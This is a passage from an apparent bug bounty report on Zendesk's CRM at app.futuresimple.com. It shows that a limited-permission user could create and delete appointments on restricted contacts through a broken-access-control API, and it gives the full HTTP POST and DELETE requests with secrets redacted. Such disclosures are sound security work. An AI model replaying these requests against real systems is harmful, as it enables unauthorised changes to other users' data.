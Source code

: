 So we were able to effect the integrity of the documents as we were able to edit the names of documents and even change their extensions.


---

## Privilege escalations leads to add/remove appointments on restricted contacts.

Since zendesk allows users to collaborate on various functionalities in the app. This was accomplished by various roles for performing different functions in the app. One role in the app was defined as *limitted permission user* which has access to limktted features in the app. The following user was *unable to create* the *contacts* nor could he add any appointments on them.



But we were able to find an api path with *broken access controls*  that lead the **limitted user** to create and remove appointments with the *contacts* eventhough this functionality was restricted from the *said role*.

Limitted user was successfully able to exploit this *api request* to create appointments with the contacts just by using their **contact id**.

```http
POST /apis/appointments/api/v1/appointments.json HTTP/1.1
Host: app.futuresimple.com
Connection: close
Content-Length: 255
x-interaction-id: 3c4eee5f-bda4-4581-bd8d-1e54aeb2ac01
Origin: https://app.futuresimple.com
x-parent-operation-id: 3c4eee5f-bda4-4581-bd8d-1e54aeb2ac01
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
x-csrf-token-generated-at: 1597815645
Content-Type: application/json
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
x-csrf-token-signature: [VALUE]
Referer: https://app.futuresimple.com/crm/contacts/288149956
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie:[VALUE]

{"appointment":{"contact_id":"[contact-id]","start_at":"2020-08-17T00:00:00.000Z","end_at":"2020-08-17T23:59:59.999Z","is_public":false,"send_updates":true,"name":"New Appointment on Sunda","location":"New York","description":"","all_day":true}
```

The limitted user was able to cancel/delete all of the appointments via below `http request` by changing the **appointment id**.

```http
DELETE /apis/appointments/api/v1/appointments/[apppointment-id].json HTTP/1.1
Host: app.futuresimple.com
Connection: close
Content-Length: 12
x-interaction-id: 91a95d78-f953-4303-f70c-f36f8f3c222c
Origin: https://app.futuresimple.com
x-parent-operation-id: 91a95d78-f953-4303-f70c-f36f8f3c222c
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
x-csrf-token-generated-at: 1597816624
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
x-csrf-token-signature: [VALUE]
Referer: https://app.futuresimple.com/crm/contacts/288149956
Accept-Encoding: gzip, deflate
```